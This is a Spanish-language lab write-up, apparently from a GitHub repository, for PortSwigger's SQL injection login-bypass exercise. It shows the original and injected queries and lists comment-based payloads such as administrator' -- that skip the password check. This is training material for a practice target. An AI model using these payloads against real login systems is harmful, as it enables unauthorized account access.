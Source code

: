 # `Lab`: SQL injection vulnerability allowing login bypass

- [Lab: SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

## Descripción:

This lab contains a SQL injection vulnerability in the login function.

To solve the lab, perform a SQL injection attack that logs in to the application as the `administrator` user.

---

### Explicación:

- En este laboratiorio ya nos dan el nombre del **user** `administrator`, pero no tenemos el **password**.
- El truco está en comentar todo lo que está después del **user** para brincar la condición del **password**.

#### Query original:

````sql
select id,username,subscription from users where username = 'administrator' and password = '@variable';
````

#### Query inyectada:

````sql
select id,username,subscription from users where username = 'administrator'--' and password = '@variable';
````

---

### Explicación con Lab:

1. Hago exactamente el mismo queary pero adaptado con un `username` de mi base de datos.
- Esto arroja un solo resultado, como está planeado originalmente:

````sql
select id,username,subscription from users where username = 'F0n3' and password = 'p@ssw0rd123-1';
````

2. Si agrego el payload `F0n3' --` ya no importa 



## Solución:

1. Abrir laboratorio y buscar en donde me puedo autenticar

2. Ingresar el usuario `administrator` con el payload `administrator' --` o `administrator' -- -` o `administrator' #` _(O cualquiera de sus versiones)_

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/cb2feaac-5eef-4207-9786-15aa382ef97d)

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/f19586fc-90f0-46e3-8172-66a0c69ccdf9)





